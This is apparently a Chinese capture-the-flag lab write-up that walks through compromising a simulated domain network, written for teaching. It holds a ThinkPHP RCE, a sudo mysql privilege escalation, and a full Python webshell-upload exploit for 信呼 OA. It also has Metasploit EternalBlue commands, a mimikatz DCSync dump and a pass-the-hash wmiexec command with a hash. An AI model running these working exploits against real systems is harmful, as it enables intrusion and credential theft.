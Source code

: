 # 春秋云镜-Initial

  
  
&lt;!--more--&gt;  
## flag01  
利用`ThinkPHP`检测工具，存在`RCE`直接`getshell`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504152016791.png)
利用`sudo -l`查看特权命令  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504152022082.png)
利用`mysql`进行提权  
`sudo mysql -e &#39;\! whoami&#39;`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504152023190.png)
`flag01: flag{60b53231-`  
## flag02  
上传`frp`进行代理，  
`./frpc -c frpc.ini`  
继续上传`fscan`扫描内网  
`ifconfig`得到内网地址  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504152034928.png)
```bash  
(www-data:/var/www/html) $ ./fscan -h 172.22.1.15/24   
   ___                              _      
  / _ \     ___  ___ _ __ __ _  ___| | __   
 / /_\/____/ __|/ __| &#39;__/ _` |/ __| |/ /  
/ /_\\_____\__ \ (__| | | (_| | (__|   &lt;      
\____/     |___/\___|_|  \__,_|\___|_|\_\     
                     fscan version: 1.8.3  
start infoscan  
trying RunIcmp2  
The current user permissions unable to send icmp packets  
start ping  
(icmp) Target 172.22.1.2      is alive  
(icmp) Target 172.22.1.15     is alive  
(icmp) Target 172.22.1.18     is alive  
(icmp) Target 172.22.1.21     is alive  
[*] Icmp alive hosts len is: 4  
172.22.1.15:80 open  
172.22.1.15:22 open  
172.22.1.18:3306 open  
172.22.1.21:445 open  
172.22.1.18:445 open  
172.22.1.2:445 open  
172.22.1.21:139 open  
172.22.1.18:139 open  
172.22.1.2:139 open  
172.22.1.21:135 open  
172.22.1.18:135 open  
172.22.1.2:135 open  
172.22.1.18:80 open  
172.22.1.2:88 open  
[*] alive ports len is: 14  
start vulscan  
[*] WebTitle http://172.22.1.15        code:200 len:5578   title:Bootstrap Material Admin  
[*] NetInfo   
[*]172.22.1.2  
   [-&gt;]DC01  
   [-&gt;]172.22.1.2  
[*] NetInfo   
[*]172.22.1.18  
   [-&gt;]XIAORANG-OA01  
   [-&gt;]172.22.1.18  
[*] NetInfo   
[*]172.22.1.21  
   [-&gt;]XIAORANG-WIN7  
   [-&gt;]172.22.1.21  
[&#43;] MS17-010 172.22.1.21    (Windows Server 2008 R2 Enterprise 7601 Service Pack 1)  
[*] OsInfo 172.22.1.2    (Windows Server 2016 Datacenter 14393)  
[*] NetBios 172.22.1.21     XIAORANG-WIN7.xiaorang.lab          Windows Server 2008 R2 Enterprise 7601 Service Pack 1  
[*] NetBios 172.22.1.2      [&#43;] DC:DC01.xiaorang.lab             Windows Server 2016 Datacenter 14393  
[*] NetBios 172.22.1.18     XIAORANG-OA01.xiaorang.lab          Windows Server 2012 R2 Datacenter 9600  
[*] WebTitle http://172.22.1.18        code:302 len:0      title:None 跳转url: http://172.22.1.18?m=login  
[*] WebTitle http://172.22.1.18?m=login code:200 len:4012   title:信呼协同办公系统  
[&#43;] PocScan http://172.22.1.15 poc-yaml-thinkphp5023-method-rce poc1  
已完成 14/14  
[*] 扫描结束,耗时: 9.743368418s  
```  
有三台机器在域内  
```bash  
*] NetBios 172.22.1.21     XIAORANG-WIN7.xiaorang.lab          Windows Server 2008 R2 Enterprise 7601 Service Pack 1  
  
[*] NetBios 172.22.1.2      [&#43;] DC:DC01.xiaorang.lab             Windows Server 2016 Datacenter 14393  
  
[*] NetBios 172.22.1.18     XIAORANG-OA01.xiaorang.lab          Windows Server 2012 R2 Datacenter 9600  
```  
其中`172.22.1.2`是`DC`，  
存在`信呼协同办公系统`先打这个  
```python  
# 1.php为webshell  
  
# 需要修改以下内容：  
# url_pre = &#39;http://&lt;IP&gt;/&#39;  
# &#39;adminuser&#39;: &#39;&lt;ADMINUSER_BASE64&gt;&#39;,  
# &#39;adminpass&#39;: &#39;&lt;ADMINPASS_BASE64&gt;&#39;,  
  
import requests  
  
session = requests.session()  
url_pre = &#39;http://172.22.1.18/&#39;  
url1 = url_pre &#43; &#39;?a=check&amp;m=login&amp;d=&amp;ajaxbool=true&amp;rnd=533953&#39;  
url2 = url_pre &#43; &#39;/index.php?a=upfile&amp;m=upload&amp;d=public&amp;maxsize=100&amp;ajaxbool=true&amp;rnd=798913&#39;  
# url3 = url_pre &#43; &#39;/task.php?m=qcloudCos|runt&amp;a=run&amp;fileid=&lt;ID&gt;&#39;  
data1 = {  
    &#39;rempass&#39;: &#39;0&#39;,  
    &#39;jmpass&#39;: &#39;false&#39;,  
    &#39;device&#39;: &#39;1625884034525&#39;,  
    &#39;ltype&#39;: &#39;0&#39;,  
    &#39;adminuser&#39;: &#39;YWRtaW4=&#39;,  
    &#39;adminpass&#39;: &#39;YWRtaW4xMjM=&#39;,  
    &#39;yanzm&#39;: &#39;&#39;      
}  
  
r = session.post(url1, data=data1)  
r = session.post(url2, files={&#39;file&#39;: open(&#39;1.php&#39;, &#39;r&#43;&#39;)})  
filepath = str(r.json()[&#39;filepath&#39;])  
filepath = &#34;/&#34; &#43; filepath.split(&#39;.uptemp&#39;)[0] &#43; &#39;.php&#39;  
print(filepath)  
id = r.json()[&#39;id&#39;]  
url3 = url_pre &#43; f&#39;/task.php?m=qcloudCos|runt&amp;a=run&amp;fileid={id}&#39;  
r = session.get(url3)  
r = session.get(url_pre &#43; filepath &#43; &#34;?1=system(&#39;dir&#39;);&#34;)  
print(r.text)  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504152048679.png)
`flag02: 2ce3-4813-87d4-`  
## flag03  
接下来利用`MS17-010`攻击`172.22.1.21`这台机器  
直接利用`msf`中的`MS17-010`利用工具  
```  
use exploit/windows/smb/ms17_010_eternalblue  
set payload windows/x64/meterpreter/bind_tcp_uuid  
set RHOSTS 172.22.1.21  
exploit  
```  
成功反弹`shell`，并且是最高权限  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504152128864.png)
这台机器在域中，并且我们获得了最高权限，直接打DCSync尝试同步DC域的数据，dump hash  
直接利用`msf`中的`mimikatz`  
```  
load kiwi  
kiwi_cmd lsadump::dcsync /domain:xiaorang.lab /all  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504152134566.png)
域控DC开启了`445`和`135`端口，直接打`pth`  
`python3 wmiexec.py xiaorang.lab/administrator@172.22.1.2 -hashes :10cf89a850fb1cdbe6bb432b859164c8`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504152145901.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504152146740.png)
`flag03: e8f88d0d43d6}`  
## Reference  
https://tttang.com/archive/1634/  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C-initial/  

